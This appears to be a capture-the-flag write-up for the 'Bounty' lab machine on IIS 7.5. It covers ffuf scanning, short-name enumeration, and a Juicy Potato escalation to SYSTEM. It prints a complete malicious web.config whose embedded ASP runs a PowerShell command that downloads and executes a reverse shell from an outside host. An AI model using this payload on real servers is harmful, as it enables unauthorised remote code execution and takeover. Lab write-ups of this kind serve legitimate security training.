






# Bounty

### Reconnaissance

- port 80/tcp HTTP Microsoft IIS httpd 7.5

**Port 80**

A picture of Merlin is hosted on port 80, directory scanning with ffuf shows /uploadedfiles and /aspnet_client
both return 403s

`ffuf -u http://10.10.10.93/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

Searching for IIS enumeration on google brings us to HackTricks, where they mention [an older vulnerability](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#old-iis-vulnerabilities-worth-looking-for)
called Short File/Folder Name Disclosure

We can use the [IIS ShortName Scanner](https://github.com/irsdl/IIS-ShortName-Scanner) to test if the target is vulnerable

`java -jar iis_shortname_scanner.jar 2 20 http://10.10.10.93 config.xml`

The target is vulnerable and the scanner identifies the directories found during our ffuf scan, and 2 other
.asp files



We can grep any for any results matching transf in our wordlist, then scan again with ffuf using extensions

```
grep transf /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt >> words.txt
ffuf -u http://10.10.10.93/FUZZ -w words.txt -e .asp,.aspx
```



/transfer.aspx allows us to upload files to the /uploadedfiles directory

Unfortunately we can't just upload an .aspx shell, but [HackTricks mentions executing .config files](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-.config-files)

We can create a web.config file containing a powershell command to download and execute a reverse shell and 
upload it to the target

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set objShell = CreateObject("WScript.Shell")
strCommand = "cmd /c powershell.exe -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/shell.ps1')"
Set objShellExec = objShell.Exec(strCommand)
WScript.StdOut.Write(strOutput)
WScript.Echo(strOutput)
%>
```



Host the shell.ps1 reverse shell ([I just edited a Nishang shell](./shell.ps1)), start a netcat listener and
navigate to /uploadedfiles/web.config to get a reverse shell



### Exploitation

The target is running Windows Server 2008 so it will likely bevulnerable to a kernel exploit, also the user 
merlin has SeImpersonatePrivilege enabled so a potato attack will most likely work

We can upload a meterpreter shell and run local_exploit_suggester to show the target is vulnerable to juicy 
potato



Running the exploit gives us a System shell



### Lessons Learned

- When you see older versions of IIS check for Tilde/Shortname enumeration
